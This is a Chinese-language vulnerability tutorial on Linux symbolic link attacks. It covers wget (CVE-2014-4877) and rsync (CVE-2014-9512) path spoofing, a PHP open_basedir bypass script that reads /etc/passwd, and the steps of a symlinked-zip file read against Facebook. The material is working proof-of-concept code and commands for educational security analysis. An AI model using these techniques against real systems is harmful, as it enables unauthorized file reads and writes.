




# linux symbolic link attack tutorial

2015/01/27 10:01 | [Yaseng](http://drops.wooyun.org/author/Yaseng "由 Yaseng 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0×00 前言

* * *

Linux 作为应用最广泛的开源系统，其中独特的文件系统可以算是支撑 Linux 强大功能 的核心组件之一，而在文件系统中，符号链接(symbolic link )形如"月光宝盒"般可以穿 梭时空，自由穿越森严的路径限制，此一特性，使其地位在整个 Linux 系统中占有重要 一席，本文将通过实际分析与研究，深入探讨因对符号链接处理不当，可能造成的各类 安全问题，以引发对此类问题的重视。

## 0×01 客户端

* * *

客户端递归处理文件时,通过符号链接穿越可造成任意文件写入,代码执行。

案例:

## 1\. Wget ftp symbolic link attack (CVE-2014-4877)

* * *

wget 递归下载 ftp 站点时,如 wget -m ftp://127.0.0.1,在服务端伪造如下数据

```
lrwxrwxrwx 1 root root 33 Oct 11 2013 fakedir -> /tmp
drwxrwxr-x 15 root root 4096 Oct 11 2013 fakedir 
```

会在本地建立一个名称为 fakedir 的 symbolic link ,指向/tmp 目录,当 wget 发送 cwd 指令递归进入 fakedir 在发送 LIST 指令。此时可以伪造一个恶意文件或者

目录比如:

```
-rwx------ 1 root root 21 Aug 29 2013 pwned 
```

RETR 指令下载 pwned 文件时,返回文件内容(二进制或者文本)。即可欺骗 wget 客户端任意目录写入。

具体利用脚本: https://github.com/yaseng/pentest/blob/master/exploit/wget-symlink_attack_exploit.py

漏洞演示:

```
Server(attacker)  wget-symlink_attack_exploit.py
Client(victim)    wget -m ftp://127.0.0.1 
```



## 2:Rsync path spoofing attack vulnerability(CVE-2014-9512 )

* * *

笔者分析 wget 漏洞之后,发现 rsync 递归同步文件时,同样可以用符号链接来 欺骗路径,由于 rsync 双向文件处理算法比较复杂,无法直接用字符串伪造文件流。 首先 rsync 共享文件夹新建 symbolic link 指向/root/,

```
[root@pentest rsync]# ls  -lh
total 8.0K
-rw-r--r-- 1 root root    2 Oct 31 03:16 1.txt
lrwxrwxrwx 1 root root    6 Oct 31 05:09 fakedir -> /root/
drwxr-xr-x 2 root root 4.0K Oct 31 05:08 truedir 
```

truedir 中写入测试文件

```
[root@pentest rsync]# cd  truedir/
[root@pentest truedir]# ls
[root@pentest truedir]# echo rsync  test  >  pwned
[root@pentest truedir]# ls -lh
total 4.0K
-rw-r--r-- 1 root root 11 Oct 31 05:17 pwned
[root@pentest truedir]# 
```

再修改服务端发送文件列表的代码

```
file: rsync-3.1.1/flist.c    line:394
static void send_file_entry(int f, const char *fname, struct file_struct *file,
#ifdef SUPPORT_LINKS
                const char *symlink_name, int symlink_len,
#endif
                int ndx, int first_ndx)
{
  if(strcmp(fname,"turedir/pwned") == 0){

    fname="fakedir/pwned";  // symbolic link 
//change  file  true path(truedir) to  symbolic link  (fakedir)
)
}

```

由于服务端有严格的数据校验,此时会报错 "received request to transfer non-regular file fakedir/pwned.test 7 [sender]",导致客户端同步无法执行 但是对于攻击者来说,服务端是可控的,找到对应代码直接注释。

```
/* if (iflags & ITEM_TRANSFER) {
        int i = ndx - cur_flist->ndx_start;
        if (i < 0 || !S_ISREG(cur_flist->files[i]->mode)) {
            rprintf(FERROR,
                "received request to transfer non-regular file: %d [%s]\n",
                ndx, who_am_i());
            exit_cleanup(RERR_PROTOCOL);
        }
    }
*/

```

漏洞演示:



client(victim):



## 0×02 web 程序

* * *

当通过 http 访问文件时,web server 对符号链接处理不当可能导致越权访问,文件 读取等安全隐患。

案例:

## 1\. php 通用绕过 open_basedir 读取任意文件

* * *

使用函数 symlink 与 mkdir 创建一个指向目标的符号链接,代码如下

```
<?php
mkdir("abc");
chdir("abc");
mkdir("etc");
chdir("etc");
mkdir("passwd");
chdir("..");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("abc/abc/abc/abc","tmplink");
symlink("tmplink/../../../etc/passwd", "exploit");
unlink("tmplink");  //删除
mkdir("tmplink");
?>

```

生成文件

```
drwxr-xr-x 4 www www 512 Oct 20 00:37 abc
lrwxr-xr-x 1 www www 27 Oct 20 00:37 exploit -> tmplink/../../../etc/passwd
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
drwxr-xr-x 2 www www 512 Oct 20 00:37 tmplink 
```

exploit 已经指向/etc/passwd,通过 web server 如 Apache 直接静态访问,可以绕过 php open_basedir 保护读取文件。

## 2\. facebook 本地文件读取

* * *

当服务端会自动解压 zip,tar 等支持符号链接的压缩格式时。可以通过符号链接读取服务器文件 例如 facebook 本地文件读取

```
1\. 创建一个符号链接文件指向/etc/passwd 

ln -s /etc/passwd link 

2\. 压缩文件，同时保留链接 
zip --symlinks test.zip link 

3\. 上传 test.zip 文件，系统会自动解压缩 

4\. 页面当中会返回/etc/passwd 的内容 
```

如图



## 0×03 参考链接

* * *

1:CVE-2014-4877 wget ftp 下载文件夹链接欺骗漏洞分析 http://xteam.baidu.com/?p=30

2:Rsync path spoofing attack vulnerability http://xteam.baidu.com/?p=169

3:Php open_basedir bypass http://cxsecurity.com/issue/WLB-2009110068

4:Reading local files from Facebook's server http://josipfranjkovic.blogspot.com/2014/12/reading-local-files-from-facebooks.html

版权声明：未经授权禁止转载 [Yaseng](http://drops.wooyun.org/author/Yaseng "由 Yaseng 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Linux 通配符可能产生的问题](http://drops.wooyun.org/papers/2448)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [Volatility FAQ](http://drops.wooyun.org/papers/2854)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [Spring MVC xml 绑定 pojo 造成的 XXE](http://drops.wooyun.org/papers/1911)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)